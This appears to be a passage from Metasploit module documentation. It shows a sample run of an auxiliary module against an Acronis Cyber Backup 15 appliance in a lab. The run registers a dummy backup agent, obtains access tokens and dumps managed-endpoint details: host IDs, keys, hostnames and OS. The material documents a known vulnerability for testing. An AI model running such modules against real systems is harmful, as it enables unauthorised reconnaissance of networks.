 ### Acronis Cyber Backup 15 build 27009 VMware appliance
```msf
msf auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run
[*] Running module against 192.168.201.6

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 15.0.27009
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.EA9A6E26-38B5-4727-9957-FD7CDD7BF2CC@D287E868-EDBB-4FE9-85A9-F928AA10EE5D.disks
[*] type: machine
[*] hostname: AcronisAppliance-FCD94
[*] IP: 192.168.201.6
[*] OS: Linux: CentOS Linux release 7.6.1810 (Core)
[*] ARCH: linux
[*] ONLINE: true
[*] ----------------------------------------
[+] hostId: C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.1100195A-112E-4904-A933-264C2D12A4A5@C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E.disks
[*] type: machine
[*] hostname: victim.evil.corp
[*] IP: 192.168.201.2
[*] OS: Microsoft Windows Server 2022 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] Auxiliary module execution completed
```

## Limitations
No limitations.

